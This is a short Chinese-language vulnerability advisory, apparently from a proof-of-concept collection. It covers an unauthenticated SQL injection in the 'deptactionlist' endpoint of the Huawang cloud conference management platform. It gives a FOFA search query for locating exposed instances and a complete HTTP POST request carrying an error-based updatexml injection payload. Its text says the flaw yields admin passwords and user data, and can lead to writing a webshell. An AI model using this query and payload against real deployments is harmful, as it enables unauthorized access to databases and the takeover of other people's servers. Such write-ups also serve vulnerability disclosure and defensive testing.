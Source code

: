# 华望云会议管理平台deptactionlist存在SQL注入漏洞

华望云会议管理平台 `deptactionlist` 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
title="华望云会议管理平台"
```

## poc

```javascript
POST /page/deptactionlist?search=1%25'+and+1%3d(updatexml(0x7e,concat(1,(select+user())),1))+and+'%25%25'+like+'&dpId=1&params[]=dpName&params[]=dpId HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Cookie: uid=112; JSESSIONID=8E8A139355E2047CEAC6B307396968A8; languageGlobal=1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
```

![6c237de2647241b88da8985fa11e6dff.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409132246419.png)